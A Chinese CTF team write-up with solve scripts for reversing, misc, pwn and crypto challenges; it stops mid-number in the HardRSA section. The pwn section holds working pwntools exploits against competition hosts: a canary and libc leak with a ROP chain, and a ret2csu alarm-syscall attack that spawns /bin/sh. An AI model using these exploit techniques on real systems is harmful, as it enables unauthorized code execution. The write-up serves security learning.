        *(_QWORD *)(a1 + 240) = v69;

        *(_BYTE *)(a1 + 264) = v70;

        sub_55CFAE532C32(v41);

        *(_DWORD *)(a1 + 268) = *(unsigned __int8 *)(a1 + 264);

        v42 = sub_55CFAE532BBC();

        v43 = *(_DWORD *)(a1 + 268);

        if ( v43 < 0 )

          sub_55CFAE53CDDA("hello.vhdl", 48LL);

        sub_55CFAE5131D0(&v127, (unsigned int)v43, 8LL);

        v87 = v127;

        v88 = v66;

        v66[0] = *(_DWORD *)v128;

        v66[1] = *(_DWORD *)(v128 + 4);

        v67 = *(_BYTE *)(v128 + 8);

        v68 = *(_DWORD *)(v128 + 12);

        if ( v68 != 8 )

          sub_55CFAE53CDDA("hello.vhdl", 48LL);

        v44 = v87;

        for ( i = 0LL; (unsigned int)i <= 7; ++i )

        {

          v46 = *(_BYTE **)(a1 + 8 * i + 16);

          *(_BYTE *)(a1 + i + 288) = *(_BYTE *)(v44 + i);

          v47 = 1;

          if ( !v46[42] )

            v47 = *v46 != *(_BYTE *)(a1 + i + 288);

          if ( v47 )

            sub_55CFAE523B0A();

        }

        sub_55CFAE532C32(v42);

        result = sub_55CFAE53381E(1000000LL, "hello.vhdl", 49LL);

        *(_DWORD *)(a1 + 276) = 7;

        return result;

      case 7:

        if ( *(int *)(a1 + 280) > 0 && *(int *)(a1 + 280) < 9 )

        {

          v7 = v3;

          v126[0] = a1 + 152;

          v126[1] = (__int64)&asc_55CFAE5CC3E0[8];

          v8 = sub_55CFAE532BBC();

          v9 = *(_DWORD *)(a1 + 280) - 1;

          if ( v9 >= 8 )

            sub_55CFAE53D036("hello.vhdl", 51LL, v9, v76);

          v10 = dword_55CFAE5CC420[v9];

          if ( v10 < 0 )

            sub_55CFAE53CDDA("hello.vhdl", 51LL);

          sub_55CFAE5131D0(&v124, (unsigned int)v10, 8LL);

          v123[0] = v124;

          v123[1] = (__int64)v63;

          v63[0] = *(_DWORD *)v125;

          v63[1] = *(_DWORD *)(v125 + 4);

          v64 = *(_BYTE *)(v125 + 8);

          v65 = *(_DWORD *)(v125 + 12);

          v11 = sub_55CFAE4FC140(v126, v123);

          sub_55CFAE532C32(v8);

          v3 = v7;

          if ( (v11 & 1) != 0 )

            ++*(_DWORD *)(a1 + 272);

        }

        if ( *(int *)(a1 + 280) >= 9 && *(int *)(a1 + 280) < 17 )

        {

          v122[0] = a1 + 152;

          v122[1] = (__int64)&asc_55CFAE5CC3E0[8];

          v12 = sub_55CFAE532BBC();

          v13 = *(_DWORD *)(a1 + 280) - 9;

          if ( v13 >= 8 )

            sub_55CFAE53D036("hello.vhdl", 56LL, v13, v75);

          v14 = dword_55CFAE5CC460[v13];

          if ( v14 < 0 )

            sub_55CFAE53CDDA("hello.vhdl", 56LL);

          sub_55CFAE5131D0(&v120, (unsigned int)v14, 8LL);

          v119[0] = v120;

          v119[1] = (__int64)v60;

          v60[0] = *(_DWORD *)v121;

          v60[1] = *(_DWORD *)(v121 + 4);

          v61 = *(_BYTE *)(v121 + 8);

          v62 = *(_DWORD *)(v121 + 12);

          v15 = sub_55CFAE4FC140(v122, v119);

          sub_55CFAE532C32(v12);

          if ( (v15 & 1) != 0 )

            ++*(_DWORD *)(a1 + 272);

        }

        if ( *(int *)(a1 + 280) >= 17 && *(int *)(a1 + 280) < 25 )

        {

          v118[0] = a1 + 152;

          v118[1] = (__int64)&asc_55CFAE5CC3E0[8];

          v16 = sub_55CFAE532BBC();

          v17 = *(_DWORD *)(a1 + 280) - 17;

          if ( v17 >= 8 )

            sub_55CFAE53D036("hello.vhdl", 61LL, v17, v74);

          v18 = dword_55CFAE5CC4A0[v17];

          if ( v18 < 0 )

            sub_55CFAE53CDDA("hello.vhdl", 61LL);

          sub_55CFAE5131D0(&v116, (unsigned int)v18, 8LL);

          v115[0] = v116;

          v115[1] = (__int64)v57;

          v57[0] = *(_DWORD *)v117;

          v57[1] = *(_DWORD *)(v117 + 4);

          v58 = *(_BYTE *)(v117 + 8);

          v59 = *(_DWORD *)(v117 + 12);

          v19 = sub_55CFAE4FC140(v118, v115);

          sub_55CFAE532C32(v16);

          if ( (v19 & 1) != 0 )

            ++*(_DWORD *)(a1 + 272);

        }

        if ( *(int *)(a1 + 280) >= 25 && *(int *)(a1 + 280) < 33 )

        {

          v114[0] = a1 + 152;

          v114[1] = (__int64)&asc_55CFAE5CC3E0[8];

          v20 = sub_55CFAE532BBC();

          v21 = *(_DWORD *)(a1 + 280) - 25;

          if ( v21 >= 8 )

            sub_55CFAE53D036("hello.vhdl", 66LL, v21, v73);

          v22 = dword_55CFAE5CC4E0[v21];

          if ( v22 < 0 )

            sub_55CFAE53CDDA("hello.vhdl", 66LL);

          sub_55CFAE5131D0(&v112, (unsigned int)v22, 8LL);

          v111[0] = v112;

          v111[1] = (__int64)v54;

          v54[0] = *(_DWORD *)v113;

          v54[1] = *(_DWORD *)(v113 + 4);

          v55 = *(_BYTE *)(v113 + 8);

          v56 = *(_DWORD *)(v113 + 12);

          v23 = sub_55CFAE4FC140(v114, v111);

          sub_55CFAE532C32(v20);

          if ( (v23 & 1) != 0 )

            ++*(_DWORD *)(a1 + 272);

        }

        if ( *(int *)(a1 + 280) >= 33 && *(int *)(a1 + 280) < 41 )

        {

          v110[0] = a1 + 152;

          v110[1] = (__int64)&asc_55CFAE5CC3E0[8];

          v24 = sub_55CFAE532BBC();

          v25 = *(_DWORD *)(a1 + 280) - 33;

          if ( v25 >= 8 )

            sub_55CFAE53D036("hello.vhdl", 71LL, v25, v72);

          v26 = dword_55CFAE5CC520[v25];

          if ( v26 < 0 )

            sub_55CFAE53CDDA("hello.vhdl", 71LL);

          sub_55CFAE5131D0(&v108, (unsigned int)v26, 8LL);

          v107[0] = v108;

          v107[1] = (__int64)v51;

          v51[0] = *(_DWORD *)v109;

          v51[1] = *(_DWORD *)(v109 + 4);

          v52 = *(_BYTE *)(v109 + 8);

          v53 = *(_DWORD *)(v109 + 12);

          v27 = sub_55CFAE4FC140(v110, v107);

          sub_55CFAE532C32(v24);

          if ( (v27 & 1) != 0 )

            ++*(_DWORD *)(a1 + 272);

        }

        v28 = *(_DWORD *)(a1 + 280);

        v29 = v28 > 40;

        if ( v28 >= 41 )

          v29 = *(_DWORD *)(a1 + 280) < 49;

        v2 = 4;

        if ( v29 )

        {

          v106[0] = a1 + 152;

          v106[1] = (__int64)&asc_55CFAE5CC3E0[8];

          v30 = sub_55CFAE532BBC();

          v31 = *(_DWORD *)(a1 + 280) - 41;

          if ( v31 >= 8 )

            sub_55CFAE53D036("hello.vhdl", 76LL, v31, v71);

          v32 = dword_55CFAE5CC560[v31];

          if ( v32 < 0 )

            sub_55CFAE53CDDA("hello.vhdl", 76LL);

          sub_55CFAE5131D0(&v104, (unsigned int)v32, 8LL);

          v103[0] = v104;

          v103[1] = (__int64)v48;

          v48[0] = *(_DWORD *)v105;

          v48[1] = *(_DWORD *)(v105 + 4);

          v49 = *(_BYTE *)(v105 + 8);

          v50 = *(_DWORD *)(v105 + 12);

          v33 = sub_55CFAE4FC140(v106, v103);

          sub_55CFAE532C32(v30);

          if ( (v33 & 1) != 0 )

            ++*(_DWORD *)(a1 + 272);

        }

        break;

      case 8:

        sub_55CFAE53CB90("hello.vhdl", 88LL, 6LL);

      default:

        sub_55CFAE53CB90("hello.vhdl", 21LL, 6LL);

    }

  }

}
```

一共就是几个case分支，可以看到case0是输入，case2是输出错误。

case4就是for(int i = 0; i < 44; i++)

case5是最后比较，即看有多少个输入是正确的，当为44时则输出correct。



case6是加密函数，case7就是对单字节加密结果比较了。

密文在case7的分组来的，如第一组密文在如下箭头的地方：



这里还有一点要说的就是程序的**sub_5585B8E481D0**函数是把数据转化为二进制，但是1用3代替，0用2代替的。

然后这里加密操作，猜测的是异或，因为输入数据在经过case6是变化过的。然后从测试的数据输入与输出得到异或值：0x9c

如我输入的字符7，经过转化后变为了22332333，然后22332333变为了32323233，即0x37变为了0xAB，那么从这可推出：0x37^0xab = 0x9c

最后提取出所有密文解密即可：

```python
enc = [216, 221, 207, 223, 200, 218, 231, 172, 170, 174, 165, 173, 165, 170, 174, 177, 253, 254, 253, 248, 177, 168, 172, 255, 164, 177, 164, 175, 173, 164, 177, 250, 172, 253, 170, 254, 173, 164, 170, 168, 164, 174, 255, 225]


for i in range(len(enc)):

    print(chr(enc[i]^0x9c), end = '')
```

### 虚假的粉丝

> 你是真的粉丝还是虚假的粉丝？





ASCII-faded 1999.txt



key1 和 key2 可以从上面得到（当然也可以逆向出）

Final key 足够大就行了




```
S3Cre7_K3y = Al4N_wAlK3RX
```

按照逆向的逻辑写脚本（其实等他命令行里播放完看这个文件也行

Exp:

```python
# >>> (hex(ord('A')) + hex(ord('W'))).replace("0x", "")

# '4157'

# >>> ord('F') + ord('a') + ord('d') + ord('e') + ord('d') + ord('i') + ord('s') + ord('b') + ord('e') + ord('s') + ord('t')

# 1118


with open('./f/ASCII-faded 5315.txt', 'rb') as fin:

    f = fin.read()


key = b"Al4N_wAlK3RX"

r = bytearray()

v = 0

for i in range(0, len(f)):

    if v > 10:

        v = 0

    r.append(f[i] ^ key[v])

    v += 1


print(r)


with open('out.txt', 'wb') as fout:

    fout.write(r)
```




A_TrUe_AW_f4ns

出了


###  


## Pwn

### String go

简单栈溢出，通过输入-1可以泄漏canary和libc。本来想拿shell，但是为了测试于是用puts函数试着输出一下/bin/sh字符串，但是最后不知道怎么就把flag带出来了。

```python
from pwn import *

context.log_level = 'debug'

# sh = process('./string_go')

sh = remote('82.157.20.104',37600)

context.terminal = ['tmux', 'splitw', '-h']

libc = ELF('libc-2.27.so')


sh.sendlineafter(">>> ","3")

sh.sendlineafter(">>> ","-1+1")

sh.sendlineafter(">>> ","1")


sh.recv(0x10)

sh.recv(0x10)

sh.recv(0x6)

sh.recv(2+0x20)


canary = u64(sh.recv(8))

sh.recv(0xb8)

libc_addr = u64(sh.recv(8)) - (0x7fcd591cbbf7 - 0x7fcd591aa000)


log.success('canary: ' + hex(canary))

log.success('libc_addr: ' + hex(libc_addr))


system = libc.sym['system'] + libc_addr

binsh =  libc_addr + 0x00000000001b3e1a

pop_rdi = libc_addr + 0x0000000000026b72

ret = libc_addr + 0x0000000000025679

puts = libc_addr + libc.sym['puts']

execve = libc_addr + libc.sym['execve']

pop_rsi = 0x0000000000027529 + libc_addr

pop_rdx_r12 = 0x000000000011c371 + libc_addr


log.success('binsh_str: ' + hex(binsh))

log.success('system: ' + hex(system))


sh.recv()

payload = b'a'*0x18 + p64(canary) + b'\x00'*0x18 + p64(ret)*2 + p64(pop_rdi) + p64(binsh) + p64(pop_rsi) + p64(0) + p64(pop_rdx_r12) + p64(0)*2 + p64(puts)


sh.sendline(payload)


# gdb.attach(sh)


sh.interactive()
```



### Blind

用了alarm里的syscall，需要爆破一下1/16

```python
from pwn import *

context.log_level = "debug"

context.arch = "amd64"

#p = process('./blind')

p = remote('82.157.6.165',36000)

#libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

elf = ELF("./blind")

def csu(arg1,arg2,arg3,func):

        mmmc = 0x04007A0

        pop6_ret = 0x4007BA

        payload = p64(pop6_ret)

        payload += p64(0)+p64(1)+p64(func)+p64(arg3)+p64(arg2)+p64(arg1)

        payload += p64(mmmc)+'a'*56

        return payload

read_got = elf.got['read']

alarm_got = elf.got['alarm']

bss = 0x00601000 + 0x500

prdi_ret = 0x4007c3

payload = "a" * 0x58

payload += csu(0, alarm_got, 0x100, read_got)

payload += csu(0, bss, 0x100, read_got)

payload += csu(bss, 0, 0, alarm_got)

#gdb.attach(p,'b *0x400753')

sleep(3)

p.send(payload)

sleep(0.1)

p.send('\xd5')

sleep(0.1)

payload = '/bin/sh\x00'.ljust(59,'\x00')

p.send(payload)


p.interactive()
```


## Crypto

### DSA

第一层解pell方程，网上找个脚本，根据cl1，cl2的最大bit数卡一下bit求出合适的解，即ul，vl，crt一下构造多项式求m1, m2，求出m1,m2也就求出和hm1,hm2，之后g很好求，指数上用费马小定理，发现求个逆即可，pq两个方程两个未知数解一下也就求出来了，之后用s2-s1求k，剩下的就没啥了，求出x12就好了

```
from pwn import *

from hashlib import sha256

from Crypto.Util.number import *

from tqdm import tqdm

import gmpy2

import math

from Crypto.Hash import SHA

from Crypto.Cipher import AES

from sage.modules.free_module_integer import IntegerLattice

import itertools


# def solve_pell (N , bound,  numTry = 1000):

#     sols = []

#     cf = continued_fraction ( sqrt ( N ))

#     for i in range ( numTry ):

#         denom = cf . denominator ( i )

#         numer = cf . numerator ( i )

#         if numer ^2 - N * denom ^2 == 1:

#             if numer.nbits() in range(bound, bound+10):

#                 sols.append((ZZ(numer) , ZZ(denom)))

#     return sols


wl = [3912956711, 4013184893, 3260747771]

cl1 = [2852589223779928796266540600421678790889067284911682578924216186052590393595645322161563386615512475256726384365091711034449682791268994623758937752874750918200961888997082477100811025721898720783666868623498246219677221106227660895519058631965055790709130207760704, 21115849906180139656310664607458425637670520081983248258984166026222898753505008904136688820075720411004158264138659762101873588583686473388951744733936769732617279649797085152057880233721961, 301899179092185964785847705166950181255677272294377823045011205035318463496682788289651177635341894308537787449148199583490117059526971759804426977947952721266880757177055335088777693134693713345640206540670123872210178680306100865355059146219281124303460105424]

cl2 = [148052450029409767056623510365366602228778431569288407577131980435074529632715014971133452626021226944632282479312378667353792117133452069972334169386837227285924011187035671874758901028719505163887789382835770664218045743465222788859258272826217869877607314144, 1643631850318055151946938381389671039738824953272816402371095118047179758846703070931850238668262625444826564833452294807110544441537830199752050040697440948146092723713661125309994275256, 10949587016016795940445976198460149258144635366996455598605244743540728764635947061037779912661207322820180541114179612916018317600403816027703391110922112311910900034442340387304006761589708943814396303183085858356961537279163175384848010568152485779372842]

# sol = []

# print([x.nbits() for x in cl1])

# print([x.nbits() for x in cl2])

# bounds = [879, 633, 866]

# for i in range(3):

#     sol.append(solve_pell(wl[i], bounds[i]))

# print(sol)


data = [[(10537190383977432819948602717449313819513015810464463348450662860435011008001132238851729268032889296600248226221086420035262540732157097949791756421026015741477785995033447663038515248071740991264311479066137102975721041822067496462240009190564238288281272874966280, 168450500310972930707208583777353845862723614274337696968629340838437927919365973736431467737825931894403582133125917579196621697175572833671789075169621831768398654909584273636143519940165648838850012943578686057625415421266321405275952938776845012046586285747)], [(121723653124334943327337351369224143389428692536182586690052931548156177466437320964701609590004825981378294358781446032392886186351422728173975231719924841105480990927174913175897972732532233, 1921455776649552079281304558665818887261070948261008212148121820969448652705855804423423681848341600084863078530401518931263150887409200101780191600802601105030806253998955929263882382004)], [(1440176324831562539183617425199117363244429114385437232965257039323873256269894716229817484088631407074328498896710966713912857642565350306252498754145253802734893404773499918668829576304890397994277568525506501428687843547083479356423917301477033624346211335450, 25220695816897075916217095856631009012504127590059436393692101250418226097323331193222730091563032067314889286051745468263446649323295355350101318199942950223572194027189199046045156046295274639977052585768365501640340023356756783359924935106074017605019787)]]

ul = []

vl = []

for x in data:

    ul.append(x[0][0])

    vl.append(x[0][1])

e = 7

m17 = crt(cl1, ul)

m27 = crt(cl2, vl)

P.<x> = PolynomialRing(ZZ)

f = x^7 - m17

m1 = int(f.roots()[0][0])

g = x^7 - m27

m2 = int(g.roots()[0][0])

m1 = long_to_bytes(m1)

m2 = long_to_bytes(m2)

hm1 = bytes_to_long(SHA.new(m1).digest())

hm2 = bytes_to_long(SHA.new(m2).digest())

r1, s1, s2 = (498841194617327650445431051685964174399227739376, 376599166921876118994132185660203151983500670896, 187705159843973102963593151204361139335048329243)

pq = 85198615386075607567070020969981777827671873654631200472078241980737834438897900146248840279191139156416537108399682874370629888207334506237040017838313558911275073904148451540255705818477581182866269413018263079858680221647341680762989080418039972704759003343616652475438155806858735982352930771244880990190318526933267455248913782297991685041187565140859

d1 = 106239950213206316301683907545763916336055243955706210944736472425965200103461421781804731678430116333702099777855279469137219165293725500887590280355973107580745212368937514070059991848948031718253804694621821734957604838125210951711527151265000736896607029198

t = 60132176395922896902518845244051065417143507550519860211077965501783315971109433544482411208238485135554065241864956361676878220342500208011089383751225437417049893725546176799417188875972677293680033005399883113531193705353404892141811493415079755456185858889801456386910892239869732805273879281094613329645326287205736614546311143635580051444446576104548

g = inverse(t, pq)

y = d1*x^2 + x - pq

q = int(y.roots()[0][0])

p = pq // q

k = (hm2 - hm1) * inverse(s2-s1, q) % q

x1 = (s1*k-hm1) * inverse(r1, q) % q

r2, s3 = (620827881415493136309071302986914844220776856282, 674735360250004315267988424435741132047607535029)

x2 = (s3*k-hm1) * inverse(r2, q) % q

print(p)

print(long_to_bytes(x1) + long_to_bytes(x2))
```


### FilterRandom

filter中每次有0.9概率从s1中选择数字，0.1概率选择s2中的数据，因此out中大部分数据都是来自于s1的。通过计算，有很大概率存在连续64个来自于s1中的数据，可以检测一下，并找到连续数字开始的下标。

找到连续64个比特之后，只需要一直向前回溯，就能得到初始状态init1.第一部分代码如下：

```
N = 64

class lfsr():

    def __init__(self, init, mask, length):

        self.init = init

        self.mask = mask

        self.lengthmask = 2**length-1


    def next(self):

        nextdata = (self.init << 1) & self.lengthmask 

        i = self.init & self.mask & self.lengthmask 

        output = 0

        while i != 0:

            output ^= (i & 1)

            i = i >> 1

        nextdata ^= output

        self.init = nextdata

        return output


def backtrace(state, mask):

    mask = ((mask & 0x7FFFFFFFFFFFFFFF) << 1) + 1

    i = state & mask

    output = 0

    while i != 0:

        output ^= (i & 1)

        i = i >> 1

    state >>= 1

    return (output << 63) + state


output = "10001011010100011000100101001011100010110111001100001110000111011011100101101101000111101100010111100011000011111111010101111100101010101100010100000111011010011110111000100000101100101010110100111100011000101010101011011111011011000001101001011000010000011110001111001111011100110011111111101000111101001010000110001110111101001001101011101101001010001101010010110000000000001001101100101011110011010110011010110110011001001111001010100011110111100100010110111100110010000000010010011110001100000011000001110001000000010000100100101100000011100000011110101001011010011010100001101000010100100000011001011001000110000000000111011101000110010110111110010101110010001010001111111000011010000011001110111001000010011000000111010111100000100010011001111101110110100100011111000111000011111101010010110011111100010000100101011000001010101111101111001000011101111000111000101011010111100110001011011100101001010110110110110011100100111100110001101110010100010111100000110000010110100010001100011011001100100110101110010100011101110110010000010011100000011100000101010011011111110000100000010001010111011011111110100111100011100011110110010001011101111001011101010110111001001000111001001111001111110111111100001111100100110011111110110101000011010111110010001100000111100010011100011010000101010111010101101000011001110011000000110110110001101100110101110010010111011100110101000110000011001010100000110000000001110010001010001001101111100001111111011010010011100110010000111010001001111111110000010101110011010100100101101100111000010110100110010001010110111110011000111011101110100010000110110110011001011111011111000000000000001110000001000011000110111000000110100110110001111011111100010010011100101010000111000011111010000001010010011101010010110011000000001111110000000010111011000010001111000100110101110001000011111001101111111100011111011001001110000101001101110100111010011011101000110010000001001000001100110001110101100001000110100100010111101100010100110011111010011100100001101111010000110110101111111001111011100001101100000001101111100100"

mask1=17638491756192425134

mask2=14623996511862197922

ans=[]


for i in range(1984):

    gadget = int(output[i:i+64], 2)

    l1=lfsr(gadget,mask1,64)


    cnt=0    

    for j in range(i+64, 2048):

        if l1.next()==int(output[j]):

            cnt+=1

    total=1984-i

    ans.append((i, cnt / total))


ans.sort(key=lambda x:x[1], reverse=True)


ans2=[]

for i, each in ans:

    if each > 0.85:

        ans2.append((i,each))

    else:

        break


ans2.sort(key=lambda x:x[0])

idx = ans2[0][0]


init1 = output[idx:idx+64]

init1 = int(init1, 2)


for _ in range(i):

    init1 = backtrace(init1, mask1)


for _ in range(64):

    init1 = backtrace(init1, mask1)


print(init1)
```

得到init1之后，output里与init1生成不一样的数据就是init2生成的数据。由于lfsr是可以用矩阵表示的，因此可以用矩阵方程：$init*A^{k-1}*mask$得到第k个输出。我们已知100多比特的输出，那么就可列$xA=y$形式矩阵方程计算。

```
M = block_matrix(Zmod(2), [Matrix([0] * 63), identity_matrix(63)], nrows = 2, subdivide = False)

mask = mask2.digits(2)[::-1]

mask = Matrix(Zmod(2), mask).T

M = block_matrix(Zmod(2), [M, mask], ncols = 2, subdivide = False)

known = 

A = []

for idx, res in known:

    A.append((M^i*mask).list())


A = Matrix(Zmod(2), A).T

y = vector(Zmod(2), [x[1] for x in known])

print(A.solve_left(y))
```

输出向量2进制转10进制即init2.

### HardRSA

第一层base是2的dlp，求解出x之后，解个多项式root求出p，已知dp情况下在modp下求解即可。

```
from hashlib import sha256

from Crypto.Util.number import *

from tqdm import tqdm

import gmpy2

import math

from Crypto.Cipher import AES

from sage.modules.free_module_integer import IntegerLattice

import itertools


y = 4497033477092873289824468123188701582303696886258943079536040745024132580452655024963659983835621199155650805180773608397050040582117843696564866783070073486919911366101429193727797827791115071291011106745592353883920821134173060020501242159048030268944001551942754248345779425001504104400576606794609186453573760956130797201721483020978937340347884581223338167591626058888795315942176619215472931642819349206699354170801568330725283585118077577485543486159579776637847621247465546381526934695807610024377938370941013384080174072519861165892405236253409640255313574467062638718434891430686205010202844217812438796752920602688763532508543691891829260552042290025682248464369181532457205144502344331707173110838685914771860618962827908808507974716583213241273347044384303548447701319800496685163507749396253699098699063621740156280782580396381110648423249799978677464048064573295286907227573223731586708272033505